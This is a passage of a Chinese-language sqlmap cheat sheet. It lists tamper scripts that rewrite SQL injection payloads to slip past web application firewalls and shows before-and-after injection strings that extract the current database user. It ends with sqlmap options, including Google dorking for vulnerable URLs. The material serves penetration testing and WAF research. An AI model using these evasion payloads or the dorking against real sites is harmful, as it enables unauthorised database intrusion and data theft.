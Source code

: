 ·ASP
·ASP.NET
·Microsoft SQL Server 2000
·Microsoft SQL Server 2005
·MySQL 5.1.56
·PostgreSQL 9.0.3
Notes:
Useful  to bypass weak web application firewalls that do not unicode url-decode  the request before processing  it through their ruleset
```
```
脚本名：securesphere.py
作用：追加特制的字符串
例子:
('1 AND 1=1')
"1 AND 1=1 and '0having'='0having'"
要求:
all
```
```
脚本名：versionedmorekeywords.py
作用：注释绕过
例子:
1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,122,114,115,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,115,114,121,58))#
1/*!UNION**!ALL**!SELECT**!NULL*/,/*!NULL*/,/*!CONCAT*/(/*!CHAR*/(58,122,114,115,58),/*!IFNULL*/(CAST(/*!CURRENT_USER*/()/*!AS**!CHAR*/),/*!CHAR*/(32)),/*!CHAR*/(58,115,114,121,58))#
要求:
·MySQL >= 5.1.13
```
```
脚本名：space2comment.py
作用：
Replaces space character (‘‘) with comments ‘/**/’
例子:
SELECT id FROM users
SELECT//id//FROM/**/users
要求:
·Microsoft SQL Server 2005
·MySQL 4, 5.0 and 5.5
·Oracle 10g
·PostgreSQL 8.3, 8.4, 9.0
Notes:
·Useful  to bypass weak and bespoke web application firewalls
```
```
脚本名：halfversionedmorekeywords.py
作用：关键字前加注释
例子:
value’ UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND ‘QDWa’='QDWa
value’/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)), NULL, NULL#/*!0AND ‘QDWa’='QDWa
要求:
·MySQL < 5.1
```
### Sqlmap常用参数及说明
```
-b  获取 banner
-p  指定测试参数
-g  从 Google 中获取URL，-g "inurl:aspx?id="
--gpage=GOOGLEPAGE  指定 Google 页码
--union-check  是否支持 union 注入
--union-cols  union 查询表记录
--union-test  union 语句测试
--union-use  采用 union 注入